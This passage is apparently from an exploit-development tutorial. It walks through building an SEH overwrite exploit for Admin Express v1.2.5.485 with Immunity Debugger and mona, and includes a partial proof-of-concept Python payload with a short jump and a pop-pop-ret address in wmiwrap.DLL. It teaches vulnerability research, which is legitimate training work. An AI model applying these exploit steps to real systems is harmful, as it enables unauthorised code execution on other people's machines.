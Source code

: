 Below is a better view of the addresses generated by mona (open the above image in a new tab to see more clearly):

<img src="{{ site.url }}{{ site.baseurl }}/images/5a.png" alt="">

As you can see, there is a problem. All of the recommended memory addresses contain `00`, or null bytes. As we will find, these are not in our allowed character set. To get around this problem, read line that says:                                       `[+] Done.. Only the first 20 pointers are shown here, For more pointers, open seh.txt`. If you open __Windows Explorer__ (known now as __File Explorer__) and go to `C:\Program Files\Immunity Inc\Immunity Debugger\seh.txt`, you can find a list of all memory addresses that contain the instructions `pop <reg> pop <reg> ret`.

You can go to __seh.txt__ and choose any of the memory locations that adhere to our character schema and have no null bytes. We will get to finding all of the bad characters in a second, just keep [Trying Harder](https://www.offensive-security.com/when-things-get-tough/). The address I chose was: `0x10014C42`. You are more than welcome to try any addresses that work for you!

Before updating the PoC, let's ask ourselves a question. Now that we can control what gets loaded into the instruction pointer, what should we do? The typical thing to do in an SEH exploit would be to do a short jump into the second buffer of user supplied data, where presumably our shellcode is. Remember to restart Immunity, and press play. Here is the updated PoC:
```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit

payload = "\x41" * 4260
payload += "\xeb\x06\x90\x90" 		# Short jump 6 bytes into C buffer
payload += "\x42\x4c\x01\x10"		# 0x10014c42 pop pop ret wmiwrap.DLL
payload += "\x43" * (5000-len(payload))	# The remaining bytes to create the crash. Changed to C's to differentiate
					# between 1st and last buffer.

print payload

#f = open('pwn.txt', 'w')
#f.write(payload)
#f.close()
```
Execute the Python script, copying the output, and pasting it back into the __Folder Path__ field, we see the application crashes again! Let us do some more analysis.

We see there is no change in the registers in terms of which we are writing too! Let's view the SEH chain to verify our `pop <reg> pop <reg> ret` is loaded properly:

<img src="{{ site.url }}{{ site.baseurl }}/images/6.png" alt="">

Set a breakpoint with `F2` and pass the exception with `Shift` `F9`:

<img src="{{ site.url }}{{ site.baseurl }}/images/7.png" alt="">

Step through with `F7`. We reach our nSEH jump instruction, but we notice something wrong! Our instructions got mangled:

<img src="{{ site.url }}{{ site.baseurl }}/images/8.png" alt="">
